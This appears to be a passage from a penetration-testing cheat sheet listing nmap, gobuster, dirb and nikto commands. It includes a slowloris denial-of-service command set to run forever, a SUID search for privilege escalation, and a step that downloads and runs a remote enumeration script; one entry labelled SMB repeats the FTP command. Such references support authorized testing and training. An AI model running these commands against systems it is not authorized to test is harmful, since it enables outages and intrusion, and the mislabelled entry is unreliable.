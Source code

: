-   NMap DOS Scanning  
    `nmap --script dos -Pn $ip  
    NMap Execute DOS Attack  
    nmap --max-parallelism 750 -Pn --script http-slowloris --script-args
    http-slowloris.runforever=true`

-   Scan for coldfusion web vulnerabilities  
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

-   Anonymous FTP dump with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   SMB Security mode scan with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   File Enumeration

    -   Find UID 0 files root execution

    -   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    -   Get handy linux file system enumeration script (/var/tmp)  
        `wget <https://highon.coffee/downloads/linux-local-enum.sh>  `
        `chmod +x ./linux-local-enum.sh  `
        `./linux-local-enum.sh`

    -   Find executable files updated in August  
        `find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug`

    -   Find a specific file on linux  
        `find /. -name suid\*`

    -   Find all the strings in a file  
        `strings <filename>`

    -   Determine the type of a file  
        `file <filename>`

-   HTTP Enumeration
    ----------------

    -   Search for folders with gobuster:  
        `gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip`

    -   OWasp DirBuster - Http folder enumeration - can take a dictionary file

    -   Dirb - Directory brute force finding using a dictionary file  
        `dirb http://$ip/ wordlist.dict  `
        `dirb <http://vm/>  `
          
        Dirb against a proxy

    -   `dirb [http://$ip/](http://172.16.0.19/) -p $ip:3129`

    -   Nikto  
        `nikto -h $ip`
